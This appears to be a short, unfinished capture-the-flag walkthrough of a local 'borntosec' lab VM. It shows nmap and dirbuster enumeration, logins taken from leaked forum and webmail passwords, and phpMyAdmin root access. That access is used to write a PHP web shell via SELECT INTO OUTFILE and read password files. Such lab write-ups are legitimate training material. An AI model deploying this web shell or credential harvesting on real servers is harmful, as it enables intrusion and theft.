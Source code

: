 start vm

Nmap find ip of VBOX host.

nmap find port of VBOX host.

port 80, 443, 21, 22, 143, 993

	 ----dirbuster on : https://192.168.0.42/ ----

	==> DIRECTORY: https://192.168.0.42/forum/js/
	==> DIRECTORY: https://192.168.0.42/forum/lang/
	==> DIRECTORY: https://192.168.0.42/forum/modules/
	==> DIRECTORY: https://192.168.0.42/forum/templates_c/
	==> DIRECTORY: https://192.168.0.42/forum/themes/
	==> DIRECTORY: https://192.168.0.42/forum/update/
	==> DIRECTORY: https://192.168.0.42/webmail/
	==> DIRECTORY: https://192.168.0.42/phpmyadmin/



into the forum we have lmezard post where we can see his password !q\]Ej?*5K5cy*AJ

we connect to the forum with log 
		
	lmezard:!q\]Ej?*5K5cy*AJ

the we check his webmail, and we connect with lmezard email

 	laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

we see a mail DB Access
in the mail we find phpmyadmin root login : 
	
	root/Fg-'kKXBj87E:aJ$

so we have acces to the database and can run query , lets try to create a file

	SELECT "blabla123" INTO OUTFILE "/var/www/forum/js/testfile123" --- NOPE
	SELECT "blabla123" INTO OUTFILE "/var/www/forum/lang/testfile123" --- NOPE
	SELECT "blabla123" INTO OUTFILE "/var/www/forum/modules/testfile123" --- NOPE
	SELECT "blabla123" INTO OUTFILE "/var/www/forum/theme/testfile123" --- NOPE
	SELECT "blabla123" INTO OUTFILE "/var/www/forum/template_c/testfile123" --- YES!!!

so now i upload a exec php with system()

	SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/exc.php"

now i visit 
	
	https://192.168.0.42/form/exc?cmd=ls -R /home

and we have  /home/LOOKATME: password 

now i visit 

	https://192.168.0.42/form/exc?cmd=cat /home/LOOKATME/password
	lmezard:G!@M6f4Eatau{sF"

this doesnt work with SSH but it does with FTP

so 
	